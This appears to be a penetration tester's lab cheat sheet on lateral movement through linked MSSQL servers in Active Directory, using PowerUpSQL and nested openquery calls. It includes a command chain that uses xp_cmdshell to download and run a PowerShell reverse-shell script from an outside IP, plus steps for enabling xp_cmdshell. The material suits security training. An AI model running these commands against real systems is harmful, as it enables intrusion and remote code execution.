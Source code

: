 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

{% code overflow="wrap" %}
```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```
{% endcode %}

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstanceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"

❗Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcpEx.ps1)"'''
<strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
****Target server should have xp\_cmdshell or rpcout (disabled by default)

* If rpcout is enalbed, you can enable xp\_cmdshell using\
  EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"
* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```
{% endcode %}

